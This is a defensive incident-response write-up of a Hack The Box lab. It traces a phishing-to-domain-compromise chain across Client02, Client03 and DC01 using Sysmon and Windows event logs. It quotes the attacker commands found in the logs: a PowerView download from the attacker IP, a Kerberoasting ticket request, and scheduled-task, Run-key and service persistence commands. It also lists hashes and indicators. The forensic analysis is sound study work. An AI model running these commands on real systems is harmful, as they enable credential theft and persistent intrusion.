### Introduction

This write-up documents my investigation of a suspected Active Directory breach in the `Main.local` domain. Rather than serving as a simple answer key or step-by-step walkthrough, these notes focus more on how I approached the investigation, what artifacts I chose to analyze, how I correlated activity across multiple hosts, and how I reconstructed the attacker’s actions from the available Windows Event Logs and Sysmon data.

The environment included one Domain Controller, `DC01`, and two client machines, `Client02` and `Client03`. Based on the initial scenario, a user on `Client03` received a phishing email that ultimately led to broader domain compromise. My goal was to treat this like a real-world DFIR case by following the evidence, validating assumptions across multiple logs, and documenting the attack chain in a way that clearly explains both what happened and why each finding matters.

### Objective

My primary objective of this investigation was to determine:
- How the initial compromise likely occurred
- What payloads were downloaded and executed
- How the attacker established command and control
- How Active Directory enumeration was performed
- How credentials were accessed and abused
- How the attacker moved laterally through the environment
- What evidence supports domain-level compromise
- What persistence mechanisms were created on the Domain Controller

### Tools Used

These are the tools I found useful in this investigation:
- Timeline Explorer
- EvtxeCmd
- VirusTotal

 

# GhostTrace Sherlock - DFIR Write-up

**Hack The Box Initial Information:**

You are a blue team analyst tasked with investigating a suspected breach in an Active Directory environment named `Main.local`. The network includes a Domain Controller (DC01 and two client machines (Client02 and Client03). A user on Client03 received a phishing email, leading to a series of attacks that compromised the domain. Your job is to analyze the provided Windows Event Logs and Sysmon logs from Client02, Client03, and DC01 to reconstruct the attack chain, identify the attacker’s actions, and uncover critical artifacts such as credentials, hashes, and persistence mechanisms.

 

**Initial File Discovery**

To begin my investigation, I wanted to review the file system artifacts on `Client02`, specifically focusing on the `$MFT` to identify any recently created suspicious phishing (.pdf, .docx, .docm) files. Since phishing often results in a user downloading or opening a malicious document, this was a logical place to begin validating the initial compromise path.

While inspecting `Client02`'s `$MFT`, I identified a suspicious macro-enabled Word document created in the user's Downloads directory.

Suspicious File:
- File Name: `Policy.docm`
- File Path: `C:\Users\jody\Downloads\Policy.docm`
- Created Time: `2025-05-25 03:27:43`



The presence of a `.docm` file immediately stood out as macro-enabled Office documents are commonly abused in phishing campaigns. These files can contain embedded VBA macros that execute when the user enables content, allowing attackers to download malware, launch PowerShell, establish persistence, or begin additional post-exploitation activity.

 

**Zone.Identifier Review**

After identifying `Policy.docm`, I reviewed the related `Zone.Identifier` artifact to determine whether the file originated from an external location. This helped me establish whether the document was downloaded from the internet rather than created locally.

The `Zone.Identifier` showed that the file was downloaded from the following location: `192.168.204[.]152/Profits.docm`

Although I did not have access to the user's email contents, this artifact strongly supports that the file originated from a remote source. Given the initial case context describing a phishing email, the evidence suggests that `Policy.docm` was likely delivered through phishing or downloaded after the user interacted with a phishing message. At this stage, the investigation supported the likelihood of an initial access chain involving a malicious macro-enabled document.

 

**Malicious Document Execution**

After identifying the suspicious document, I shifted my focus to determining whether the file was then opened and whether it triggered any follow-on activity.

Within `Client02` Sysmon logs, I observed suspicious outbound network activity from `WINWORD.exe` shortly after the document was last accessed. Microsoft Word initiating network activity shortly after a macro-enabled document is opened is highly suspicious and commonly associated with malicious macro execution.

Observed Activity:
- Process: `WINWORD.exe`
- Suspicious Connection: `192.168.204[.]152:4444`
- Timestamp: `2025-05-25 03:29:06`
- Related File Last Accessed: `Policy.docm`
- Last Accessed Time: `2025-05-25 03:28:58`



The timing between the document being accessed and `WINWORD.exe` making an outbound connection strongly suggests that the document contained a malicious macro. The macro likely executed after the user opened the document in Word.

This activity aligns with MITRE ATT&CK T1204 - User Execution, since the attacker relied on the user opening the malicious document.

 

**Payload Download and Process Chain**

After identifying the malicious Word activity, I reviewed artifacts around the time of the network connection to determine whether a second-stage payload was downloaded.

Looking back at `Client02`'s `$MFT`, I identified a new executable created shortly after the suspicious Word activity:

Payload:
- File Name: `UpdatePolicy.exe`
- File Path: `C:\Users\jody\Downloads\UpdatePolicy.exe`
- Created Time: `2025-05-25 03:32:02`
- SHA1: `8DCA9749CD48D286950E7A9FA1088C937CBCCAD4`



Sysmon process creation data showed the following process chain: `WINWORD.exe --> cmd.exe --> powershell.exe --> UpdatePolicy.exe`

This process chain is consistent with a malicious Office document spawning a command shell, which then launched PowerShell to download or execute a second-stage payload. The presence of `UpdatePolicy.exe` in the user's Downloads directory shortly after the document was opened indicates that the attacker successfully moved from initial execution to payload staging.

 

**Command and Control Activity**

After `UpdatePolicy.exe` was created, I continued reviewing Sysmon network events to determine whether the attacker established command and control.

At `2025-05-25 03:32:26`, another outbound connection was made to the same attacker-controlled IP address, this time over port `1337`.

Observed Connection:
- Destination: `192.168.204[.]152:1337`
- Timestamp: `2025-05-25 03:32:26`
- Related Process: `powershell.exe`
- PowerShell PID: `2860`

Although `UpdatePolicy.exe` had just been created, correlation showed that the outbound connection was made by its parent process, powershell.exe, rather than the newly dropped executable. Based on this sequence of events, PowerShell likely reached out to attacker infrastructure to download `UpdatePolicy.exe` to establish a C2 session.



 

**PowerView Download and Active Directory Enumeration**

After C2 was established, I searched for related activity on `Client02` for evidence of internal reconnaissance or Active Directory enumeration.

Within `Client02`'s Sysmon logs, I observed a FileCreate event for `PowerView.ps1`.

PowerView Artifact:
- File Name: `PowerView.ps1`
- File Path: `C:\Users\jody\Downloads\PowerView.ps1`
- Created Time: `2025-05-25 03:37:05`

PowerShell logs showed that `Invoke-WebRequest` was used to download the script: `Invoke-WebRequest -Uri "http://192.168.204[.]152/PowerView.ps1" -OutFile "C:\Users\jody\Downloads\PowerView.ps1"`

PowerView is part of the PowerSploit framework and is commonly used for Active Directory enumeration. It allows attackers to map domain relationships, identify privileged users, enumerate service accounts, discover local admin access, and gather information useful for privilege escalation and lateral movement. The presence of PowerView indicates that the attacker transitioned from initial compromise into internal reconnaissance.



 

**Kerberoasting Activity**

After confirming PowerView was downloaded, I reviewed PowerShell logs to identify how the attacker used it.

Within `Client02`'s PowerShell logs, I observed the attacker targeting the service account `sqlsvc` and requesting a Kerberos service ticket formatted for Hashcat.

Observed Command: `Get-DomainUser -Identity sqlsvc | Get-DomainSPNTicket -Format Hashcat`
Timestamp: `2025-05-25 03:42:32`

This command indicates Kerberoasting activity. The attacker requested a Kerberos service ticket for the `sqlsvc` account and formatted the ticket hash for offline cracking with Hashcat. This is significant because service accounts often have elevated privileges and may use weak or reused passwords. If the attacker successfully cracked the `sqlsvc` hash offline, they could use those credentials to authenticate elsewhere in the domain.

This behavior aligns with MITRE ATT&CK T1558.003 - Kerberoasting.



 

**Lateral Movement to Client03**

After the Kerberoasting activity, I reviewed logs on `Client03` to determine whether the `sqlsvc` account was used elsewhere in the environment.

In Client03 Security logs, I identified a successful logon for the `sqlsvc` account.



Logon Evidence:
- Host: `Client03`
- Account: `MAIN\sqlsvc`
- Timestamp: `2025-05-25 04:03:47`
- Event Type: `Successful Logon`

This successful authentication occurred after the Kerberoasting activity observed on `Client02`, suggesting the attacker was able to obtain or crack the `sqlsvc` account password and then use that account to move laterally to `Client03`. At this point, the attack had moved beyond the initially compromised machine and expanded to another host in the domain.

 

**Suspicious Command Shell Masquerading**

After the successful `sqlsvc` logon on `Client03`, I reviewed Sysmon events for new files, suspicious executions, and unusual binaries.

A new executable was created in the Windows directory:

Suspicious File:
- File Name: `VgYTbFEK.exe`
- File Path: `C:\Windows\VgYTbFEK.exe`
- Created Time: `2025-05-25 04:05:12`
- SHA256: `4d89fc34d5f0f9babd022271c585a9477bf41e834e46b991deaa0530fdb25e22`

Based on the observed behavior, this file appeared to be a renamed copy of `cmd.exe`. Renaming `cmd.exe` allows the attacker to execute commands while attempting to evade detections that look specifically for standard command interpreter names or paths. This activity is consistent with masquerading behavior, where a legitimate tool or binary is renamed or relocated to avoid suspicion.

This behavior aligns with MITRE ATT&CK T1036 - Masquerading.



 

**Mimikatz Staging as Netdiag.exe**

Continuing the review of `Client03`, I identified another suspicious file created under the `sqlsvc` user's Downloads directory.

Suspicious File:
- File Name: `netdiag.exe`
- File Path: `C:\Users\sqlsvc\Downloads\netdiag.exe`
- Created Time: `2025-05-25 04:10:19`
- SHA256: `92804FAAAB2175DC501D73E814663058C78C0A042675A8937266357BCFB96C50`
- VT Score: `63/71`

At first glance, the name `netdiag.exe` appears to mimic a legitimate diagnostic utility. However, Sysmon `EventID 1` and `EventID 7` showed that the file metadata contained the following original file information:

OriginalFileName: `mimikatz`
Description: `mimikatz for Windows`

VirusTotal analysis of the hash also showed that the file was related to Mimikatz, with a detection score of 63/71. This finding indicates that the attacker staged Mimikatz on `Client03` under a misleading filename in an attempt to hide credential theft activity.



 

**Credential Dumping from LSASS**

After identifying `netdiag.exe` as Mimikatz, I reviewed Sysmon events for evidence that the tool accessed sensitive Windows processes.

Sysmon `EventID 10` showed `netdiag.exe` accessing `lsass.exe`.

Credential Access Evidence:
- Source Image: `C:\Users\sqlsvc\Downloads\netdiag.exe`
- Target Image: `C:\Windows\System32\lsass.exe`
- Timestamp: `2025-05-25 04:11:13`

Access to `lsass.exe` by a Mimikatz binary is a strong indicator of credential dumping. LSASS stores credential material in memory, and tools like Mimikatz commonly target LSASS to extract plaintext passwords, NTLM hashes, Kerberos tickets, and other authentication material.

This behavior aligns with MITRE ATT&CK T1003.001 - LSASS Memory.



 

**Privilege Escalation to Lucas Account**

Shortly after the LSASS access, the attacker executed `runas.exe` to launch a command prompt as the `lucas` user.

Observed Command: `runas.exe /user:Main\lucas cmd`
Timestamp: `2025-05-25 04:12:21`

This indicates that the attacker likely obtained the password for the `lucas` account from Mimikatz and attempted to pivot into that user context.

Shortly afterward, `netdiag.exe` was executed again at `04:12:50` from the original PowerShell window associated with PID 6304. Suggesting the attacker may not have successfully pivoted into the `lucas` context on the first attempt or may have continued credential access activity from the original session. At this stage, the attacker had moved from a service account context into another domain user account, increasing their access within the environment.



 

**Domain-Level Credential Theft via DCSync**

After obtaining access to the `lucas` account, the attacker performed domain-level credential extraction.

On the Domain Controller, `DC01`, Security logs showed hundreds of `EventID 4662` entries occurring within the same second and associated with the account MAIN\lucas.

DCSync Evidence:
- Host: `DC01`
- Event ID: `4662`
- Account: `MAIN\lucas`
- Timestamp: `2025-05-25 04:26:36`

This pattern is consistent with a DCSync attack. DCSync allows an attacker to abuse directory replication permissions to request password data from Active Directory as if they were a Domain Controller. This can allow the attacker to obtain password hashes for high-value accounts, including the domain Administrator account, without directly logging into the Domain Controller first.

This behavior aligns with MITRE ATT&CK T1003.006 - DCSync.



 

**Administrator Logon to Domain Controller**

After the DCSync activity, I observed a successful logon using the `Administrator` account on the Domain Controller.

Administrator Logon:
- Host: `DC01`
- Account: `MAIN\Administrator`
- Timestamp: `2025-05-25 04:34:01`
- Event Type: `Successful Logon`

The timing of this logon is significant because it occurred shortly after the DCSync activity associated with `MAIN\lucas`. This strongly suggests that the attacker successfully obtained the Administrator credential material and then used it to authenticate to the Domain Controller. At this point, the attacker had achieved full domain compromise.



 

**Persistence Mechanism 1 - Scheduled Task**

After gaining Administrator access to the Domain Controller, the attacker configured multiple persistence mechanisms using a suspicious file named `scvhost.exe`.

The file name `scvhost.exe` appears to masquerade as the legitimate Windows process `svchost.exe`. This slight misspelling is a common technique used to make malicious files appear legitimate at a glance.

The first persistence mechanism was a scheduled task.

Observed Command: `"C:\Windows\system32\schtasks.exe" /create /tn WindowsUpdateCheck /tr C:\Windows\System32\scvhost.exe /sc onstart /ru SYSTEM /f`

Details:
- Timestamp: `2025-05-25 04:38:53`
- Task Name: `WindowsUpdateCheck`
- Payload: `C:\Windows\System32\scvhost.exe`
- Run Context: `SYSTEM`
- Trigger: On system startup

This scheduled task executes the malicious file whenever the system boots. Since it runs as `SYSTEM`, it gives the attacker high-privilege persistence on the Domain Controller.

This behavior aligns with MITRE ATT&CK T1053.005 - Scheduled Task.



 

**Persistence Mechanism 2 - Run Key**

The second persistence mechanism involved modifying the Administrator user's Run registry key.

Observed Command: `"C:\Windows\system32\reg.exe" add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v xcvafctr /t REG_SZ /d C:\Windows\System32\scvhost.exe /f`

Details:
- Timestamp: `2025-05-25 04:40:09`
- Registry Path: `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
- Value Name: `xcvafctr`
- Payload: `C:\Windows\System32\scvhost.exe`

This registry modification causes `scvhost.exe` to execute whenever the Administrator account logs in. This gives the attacker user-logon-based persistence in addition to the previously created startup scheduled task.

This behavior aligns with MITRE ATT&CK T1060 / T1547.001 - Registry Run Keys / Startup Folder.



 

**Persistence Mechanism 3 - Malicious Service**

The third persistence mechanism involved creating a Windows service.

Observed Command: `"C:\Windows\system32\sc.exe" create WindowsUpdateSvc binPath= C:\Windows\System32\scvhost.exe start= auto`

Details:
- Timestamp: `2025-05-25 04:43:01`
- Service Name: `WindowsUpdateSvc`
- Payload: `C:\Windows\System32\scvhost.exe`
- Startup Type: Automatic

This service was configured to start automatically when Windows boots. The service name `WindowsUpdateSvc` appears intentionally chosen to blend in with legitimate Windows update-related services. This gives the attacker another durable persistence mechanism on the Domain Controller.

This behavior aligns with MITRE ATT&CK T1543.003 - Windows Service.



 

**Final Assessment**

Based on the available artifacts, the investigation supports the following conclusions:
- The initial compromise likely began with the user opening the malicious macro-enabled document `Policy.docm`.
- The document originated from a remote source at `192.168.204[.]152/Profits.docm`.
- `WINWORD.exe` initiated suspicious outbound network activity shortly after the document was accessed.
- PowerShell was launched through a `WINWORD.exe -> cmd.exe -> powershell.exe` process chain.
- A second-stage payload named `UpdatePolicy.exe` was dropped to disk.
- PowerShell established suspicious network activity to `192.168.204[.]152:1337`.
- The attacker downloaded and used `PowerView.ps1` for Active Directory enumeration.
- The attacker performed Kerberoasting against the `sqlsvc` service account.
- The `sqlsvc` account was later used to authenticate to `Client03`.
- The attacker staged a renamed command shell and Mimikatz on `Client03`.
- Mimikatz accessed `lsass.exe`, indicating credential dumping.
- The attacker used `runas.exe` to pivot into the `lucas` account.
- The `lucas` account was used to perform a DCSync attack against the domain.
- The attacker successfully authenticated to the Domain Controller as `MAIN\Administrator`.
- Three persistence mechanisms were created on `DC01` using `scvhost.exe`.

Overall, the evidence supports a full Active Directory compromise beginning with phishing, followed by payload execution, command and control, domain enumeration, credential theft, lateral movement, DCSync, Administrator access, and persistence on the Domain Controller.

  

**Attack Chain Summary**
1. User downloads/opens `Policy.docm`
2. `WINWORD.exe` initiates suspicious outbound connection
3. `cmd.exe` and `powershell.exe` are spawned
4. `UpdatePolicy.exe` is dropped to disk
5. PowerShell connects to attacker infrastructure
6. `PowerView.ps1` is downloaded
7. `sqlsvc` account is targeted with Kerberoasting
8. `sqlsvc` credentials are used to access `Client03`
9. Mimikatz is staged as `netdiag.exe`
10. LSASS is accessed for credential dumping
11. Attacker pivots to `MAIN\lucas`
12. `MAIN\lucas` performs DCSync activity
13. `MAIN\Administrator` logs into `DC01`
14. `scvhost.exe` persistence is configured through:
    - Scheduled task
    - Registry Run key
    - Windows service

**Indicators of Compromise**

Files:
- `C:\Users\jody\Downloads\Policy.docm`
- `C:\Users\jody\Downloads\UpdatePolicy.exe`
- `C:\Users\jody\Downloads\PowerView.ps1`
- `C:\Windows\VgYTbFEK.exe`
- `C:\Users\sqlsvc\Downloads\netdiag.exe`
- `C:\Windows\System32\scvhost.exe`

Hashes:
- `UpdatePolicy.exe`
    - SHA1: `8DCA9749CD48D286950E7A9FA1088C937CBCCAD4`
- `VgYTbFEK.exe`
    - SHA256: `4d89fc34d5f0f9babd022271c585a9477bf41e834e46b991deaa0530fdb25e22`
- `netdiag.exe`
    - SHA256: `92804FAAAB2175DC501D73E814663058C78C0A042675A8937266357BCFB96C50`

Persistence:
- Scheduled Task: `WindowsUpdateCheck`
- Registry Run Key Value: `xcvafctr`
- Windows Service: `WindowsUpdateSvc`

 

**MITRE ATT&CK Mapping**

| Tactic               | Technique                                      | Evidence                                                  |
| -------------------- | ---------------------------------------------- | --------------------------------------------------------- |
| Initial Access       | Phishing / User Execution                      | User opened `Policy.docm`                                 |
| Execution            | Command and Scripting Interpreter              | `cmd.exe` and `powershell.exe` spawned from `WINWORD.exe` |
| Execution            | Malicious Macro                                | Suspicious `.docm` led to outbound Word activity          |
| Command and Control  | Application Layer Protocol / Non-Standard Port | Connections to `192.168.204[.]152:4444` and `:1337`       |
| Discovery            | Domain Discovery                               | `PowerView.ps1` downloaded and used                       |
| Credential Access    | Kerberoasting                                  | `Get-DomainSPNTicket -Format Hashcat` against `sqlsvc`    |
| Credential Access    | LSASS Memory                                   | `netdiag.exe` accessed `lsass.exe`                        |
| Credential Access    | DCSync                                         | Hundreds of Event ID `4662` entries tied to `MAIN\lucas`  |
| Defense Evasion      | Masquerading                                   | `netdiag.exe`, `VgYTbFEK.exe`, and `scvhost.exe`          |
| Lateral Movement     | Valid Accounts                                 | `MAIN\sqlsvc` logon to `Client03`                         |
| Privilege Escalation | Valid Accounts                                 | `runas.exe /user:Main\lucas cmd`                          |
| Persistence          | Scheduled Task                                 | `WindowsUpdateCheck` task                                 |
| Persistence          | Registry Run Key                               | `HKCU\...\Run\xcvafctr`                                   |
| Persistence          | Windows Service                                | `WindowsUpdateSvc` service                                |

 

**Next Steps**

If this were a live incident, my next steps would include:
- Isolate `Client02`, `Client03`, and `DC01` from the network.
- Disable or reset credentials for `sqlsvc`, `lucas`, and `Administrator`.
- Rotate all privileged domain credentials.
- Investigate whether DCSync was successful and determine which hashes were accessed.
- Review Domain Admin, Enterprise Admin, and replication-related permissions.
- Search the environment for:
    - `Policy.docm`
    - `UpdatePolicy.exe`
    - `PowerView.ps`
    - `netdiag.exe`
    - `VgYTbFEK.exe`
    - `scvhost.exe`
- Hunt for connections to `192.168.204[.]152`.
- Review other endpoints for Kerberoasting indicators.
- Review all Domain Controller logs for additional replication abuse.
- Remove the scheduled task, Run key, and malicious service from `DC01`.
- Reimage compromised hosts.
- Conduct a full Active Directory compromise assessment.
- Improve detections for suspicious Office child processes, PowerShell downloads, LSASS access, DCSync activity, and persistence creation.
